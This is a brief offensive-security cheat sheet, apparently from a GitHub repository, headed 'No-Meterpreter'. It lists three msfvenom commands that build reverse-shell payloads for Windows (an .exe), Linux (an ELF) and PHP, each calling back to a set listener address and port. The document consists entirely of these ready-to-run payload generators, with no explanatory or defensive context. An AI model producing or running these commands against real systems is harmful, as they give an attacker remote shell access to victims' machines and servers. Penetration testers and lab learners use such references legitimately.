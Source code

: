 ## No-Meterpreter

### Windows

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=1337 -f exe -o reverse.exe
```

### Linux

```
msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.15.64 lport=4444 -f elf > shell
```

### PHP

```bash
msfvenom -p php/reverse_php LHOST=192.168.49.57 LPORT=443 -f raw -o shell.php
```
